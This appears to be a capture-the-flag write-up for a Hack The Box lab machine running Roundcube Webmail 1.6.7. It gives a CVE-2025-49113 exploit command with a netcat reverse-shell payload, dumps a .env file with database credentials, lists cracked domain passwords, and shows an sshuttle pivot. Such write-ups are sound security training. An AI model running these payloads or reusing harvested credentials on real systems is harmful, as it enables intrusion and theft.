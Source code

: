 
![](Dark_corp-bg.png)

## INFO


```nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 33:41:ed:0a:a5:1a:86:d0:cc:2a:a6:2b:8d:8d:b2:ad (ECDSA)
|_  256 04:ad:7e:ba:11:0e:e0:fb:d0:80:d3:24:c2:3e:2c:c5 (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: Site doesn't have a title (text/html).
```


``` Domaain
10.10.11.54     drip.htb  mail.drip.htb
```

Its RoundCube WebMail Server ; Lets register and login- to the portal for more info.


``` RoundCube_Version
Roundcube Webmail 1.6.7
```

This version of Rouncube is vulnerable to CVE-2024-4200 and CVE-2025-49113

CVE-2025-49113 is a dangerous exploit , just need a valid user and boom , but this aint the intended path , Check the exploit we get direct [RCE](https://github.com/hakaioffsec/CVE-2025-49113-exploit) 

CVE-2024-4200 , attacker can inject malicious JavaScript in a message and take advantage of a desanitization issue when parsing the HTML inside the message, which then can be used to exfiltrate email content from the victim's inbox. [XSS](https://github.com/DaniTheHack3r/CVE-2024-42009-PoC)


### Unintended RCE [CVE-2025-49113]

```
php CVE-2025-49113.php http://mail.drip.htb/ admin admin "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.204 1337 >/tmp/f"
```

Once we get the RCE Search for juicy things....

```
www-data@drip:/var/www/html/dashboard$ cat .env

# If DB credentials (if NOT provided, or wrong values SQLite is used) 
DB_ENGINE=postgresql
DB_HOST=localhost
DB_NAME=dripmail
DB_USERNAME=dripmail_dba
DB_PASS=2Qa2SsBkQvsc
DB_PORT=5432

SQLALCHEMY_DATABASE_URI = 'postgresql://dripmail_dba:2Qa2SsBkQvsc@localhost/dripmail'
SQLALCHEMY_TRACK_MODIFICATIONS = True
SECRET_KEY = 'GCqtvsJtexx5B7xHNVxVj0y2X0m10jq'
MAIL_SERVER = 'drip.htb'
MAIL_PORT = 25
MAIL_USE_TLS = False
MAIL_USE_SSL = False
MAIL_USERNAME = None
MAIL_PASSWORD = None
MAIL_DEFAULT_SENDER = 'support@drip.htb'
```


Get Shell as postgres user and check /var/backups/postgres Then decrypt the file with GPG -> dev-dripmail.sql where we retrive usernames and hashes along with that.


## USER_ACCESS 

Once we got the doamin user credentials ; Now its time to pwn the AD.

```
ebelford :: ThePlague61780

victor.r :: victor1gustavo@#
```


```sshuttle
sshuttle -r ebelford@drip.htb 172.16.20.0/24
```

